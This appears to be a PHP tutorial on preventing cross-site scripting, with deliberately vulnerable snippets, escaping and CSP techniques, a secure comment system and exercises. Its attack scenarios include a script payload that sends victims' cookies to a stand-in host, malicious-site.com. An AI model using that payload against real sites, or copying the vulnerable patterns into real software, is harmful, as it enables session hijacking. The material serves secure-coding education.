

# PHP XSS Prevention

## Introduction

Cross-Site Scripting (XSS) is one of the most common security vulnerabilities in web applications. It occurs when an application includes untrusted data in a web page without proper validation or escaping. This allows attackers to inject malicious client-side scripts into web pages viewed by other users.

In this tutorial, we'll explore:
- What XSS attacks are and why they're dangerous
- Different types of XSS vulnerabilities
- How to prevent XSS attacks in PHP applications
- Best practices for secure coding

## Understanding XSS Attacks

XSS attacks enable attackers to:
- Steal session cookies and hijack user sessions
- Capture sensitive data like passwords
- Deface websites
- Redirect users to malicious sites
- Install keyloggers or other malicious software

Let's visualize how a basic XSS attack works:



## Types of XSS Attacks

### 1. Reflected XSS

Reflected XSS occurs when user input is immediately returned by a web application without proper sanitization. 

**Vulnerable Example:**

```php
// search.php
$searchTerm = $_GET['query'];
echo "Search results for: " . $searchTerm;
```

**Attack Scenario:**
An attacker could create a URL like:
```
https://yourwebsite.com/search.php?query=<script>document.location='https://malicious-site.com/steal.php?cookie='+document.cookie</script>
```

When a victim clicks this link, the script executes in their browser and sends their cookies to the attacker.

### 2. Stored XSS

Stored XSS occurs when malicious code is saved on the target server (e.g., in a database) and later displayed to other users.

**Vulnerable Example:**

```php
// save_comment.php
$comment = $_POST['comment'];
$db->query("INSERT INTO comments (content) VALUES ('$comment')");

// view_comments.php
$result = $db->query("SELECT content FROM comments");
while ($row = $result->fetch_assoc()) {
    echo "<div class='comment'>" . $row['content'] . "</div>";
}
```

**Attack Scenario:**
An attacker submits a comment containing:
```html
Nice article! <script>document.location='https://malicious-site.com/steal.php?cookie='+document.cookie</script>
```

Every user who views the comments section will have the malicious script executed in their browser.

### 3. DOM-based XSS

DOM-based XSS occurs when JavaScript on the page modifies the DOM unsafely using untrusted data.

**Vulnerable Example:**

```php
<!-- PHP file serving HTML with vulnerable JavaScript -->
<script>
    var name = "<?php echo $_GET['name']; ?>";
    document.getElementById("greeting").innerHTML = "Hello, " + name + "!";
</script>
```

## XSS Prevention Techniques in PHP

### 1. Output Escaping

The most important defense against XSS is properly escaping output based on context.

#### HTML Context Escaping

Use `htmlspecialchars()` to convert special characters to their HTML entities:

```php
// Safe version
$searchTerm = $_GET['query'];
echo "Search results for: " . htmlspecialchars($searchTerm, ENT_QUOTES, 'UTF-8');
```

**Input:** `<script>alert('XSS')</script>`
**Output:** `&lt;script&gt;alert(&#039;XSS&#039;)&lt;/script&gt;`

This renders the script as plain text rather than executable code.

#### JavaScript Context Escaping

When embedding user data into JavaScript:

```php
// Unsafe
<script>
    var username = "<?php echo $_GET['username']; ?>";
</script>

// Safe
<script>
    var username = "<?php echo json_encode($_GET['username']); ?>";
</script>
```

`json_encode()` properly escapes quotes and other characters that could break out of the JavaScript string context.

### 2. Content Security Policy (CSP)

Implement Content Security Policy headers to restrict what resources can be loaded and executed:

```php
// Add to your PHP application
header("Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted-cdn.com");
```

This policy restricts scripts to only load from your own domain and a trusted CDN.

### 3. Use PHP Frameworks and Libraries

Modern PHP frameworks like Laravel and Symfony have built-in XSS protection:

```php
// Laravel Blade templating automatically escapes output
{{ $userInput }} // Escaped by default

// Symfony Twig templating
{{ user_input }} // Escaped by default
```

### 4. Input Validation

Always validate input according to expected format:

```php
// Validate that an email is actually an email
if (filter_var($_POST['email'], FILTER_VALIDATE_EMAIL)) {
    // Safe to use the email
} else {
    // Handle invalid input
}

// For numeric inputs
$id = filter_var($_GET['id'], FILTER_VALIDATE_INT);
if ($id === false) {
    // Handle invalid input
}
```

### 5. Use Prepared Statements for Database Operations

While primarily a defense against SQL injection, prepared statements also help prevent stored XSS:

```php
// Prepared statement example
$stmt = $pdo->prepare("INSERT INTO comments (content) VALUES (?)");
$stmt->execute([$_POST['comment']]);
```

## Real-World Example: Secure Comment System

Let's build a simple but secure comment system:

```php
<?php
// config.php
$pdo = new PDO('mysql:host=localhost;dbname=blog', 'username', 'password');
$pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

// Set security headers
header("Content-Security-Policy: default-src 'self'; script-src 'self'");
header("X-XSS-Protection: 1; mode=block");
header("X-Content-Type-Options: nosniff");

// save_comment.php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    // Input validation
    $name = filter_input(INPUT_POST, 'name', FILTER_SANITIZE_STRING);
    $email = filter_input(INPUT_POST, 'email', FILTER_VALIDATE_EMAIL);
    $comment = filter_input(INPUT_POST, 'comment', FILTER_SANITIZE_STRING);
    
    if (!$name || !$email || !$comment) {
        die("Invalid input provided");
    }
    
    // Store in database using prepared statement
    $stmt = $pdo->prepare("INSERT INTO comments (name, email, content) VALUES (?, ?, ?)");
    $stmt->execute([$name, $email, $comment]);
    
    header("Location: view_comments.php");
    exit;
}
?>

<!DOCTYPE html>
<html>
<head>
    <title>Add Comment</title>
</head>
<body>
    <form method="post" action="save_comment.php">
        <div>
            <label for="name">Name:</label>
            <input type="text" id="name" name="name" required>
        </div>
        <div>
            <label for="email">Email:</label>
            <input type="email" id="email" name="email" required>
        </div>
        <div>
            <label for="comment">Comment:</label>
            <textarea id="comment" name="comment" required></textarea>
        </div>
        <button type="submit">Submit Comment</button>
    </form>
</body>
</html>
```

And to display comments safely:

```php
<?php
// view_comments.php
require_once 'config.php';

$stmt = $pdo->query("SELECT name, content, created_at FROM comments ORDER BY created_at DESC");
$comments = $stmt->fetchAll(PDO::FETCH_ASSOC);
?>

<!DOCTYPE html>
<html>
<head>
    <title>Comments</title>
</head>
<body>
    <h1>Comments</h1>
    
    <?php if (count($comments) > 0): ?>
        <?php foreach ($comments as $comment): ?>
            <div class="comment">
                <h3><?= htmlspecialchars($comment['name'], ENT_QUOTES, 'UTF-8') ?></h3>
                <p><?= htmlspecialchars($comment['content'], ENT_QUOTES, 'UTF-8') ?></p>
                <small>Posted on: <?= htmlspecialchars($comment['created_at'], ENT_QUOTES, 'UTF-8') ?></small>
            </div>
            <hr>
        <?php endforeach; ?>
    <?php else: ?>
        <p>No comments yet.</p>
    <?php endif; ?>
    
    <a href="save_comment.php">Add a comment</a>
</body>
</html>
```

## XSS Prevention Checklist

When developing PHP applications, follow this checklist:

1. ✅ **Always escape output** based on context (HTML, JavaScript, CSS, URL)
2. ✅ **Validate all input** according to expected format
3. ✅ **Use prepared statements** for database operations
4. ✅ **Implement Content Security Policy** headers
5. ✅ **Apply the principle of least privilege** to cookies (use HttpOnly and Secure flags)
6. ✅ **Consider using a trusted template engine** with auto-escaping
7. ✅ **Keep PHP and all dependencies updated** to patch known vulnerabilities
8. ✅ **Use XSS testing tools** to scan your application for vulnerabilities

## Summary

Cross-Site Scripting (XSS) remains one of the most prevalent security vulnerabilities in web applications. By understanding how XSS attacks work and implementing proper prevention techniques, you can significantly reduce the risk of your PHP application being compromised.

Key takeaways:
- Always treat user input as potentially malicious
- Context-appropriate output escaping is crucial
- Defense in depth is the best approach (multiple layers of protection)
- Modern frameworks and libraries can help, but understanding the underlying principles is essential

## Additional Resources

1. [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
2. [PHP Manual: Security](https://www.php.net/manual/en/security.php)
3. [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)

## Exercises

1. Identify and fix XSS vulnerabilities in the following code:
   ```php
   echo "Welcome, " . $_GET['username'] . "!";
   echo "<a href='" . $_GET['url'] . "'>Click here</a>";
   ```

2. Create a simple blog post system that safely displays user-submitted content.

3. Research and implement a Content Security Policy for a PHP application that uses an external JavaScript library.

4. Build a PHP function that safely outputs user data in different contexts (HTML, JavaScript, attributes).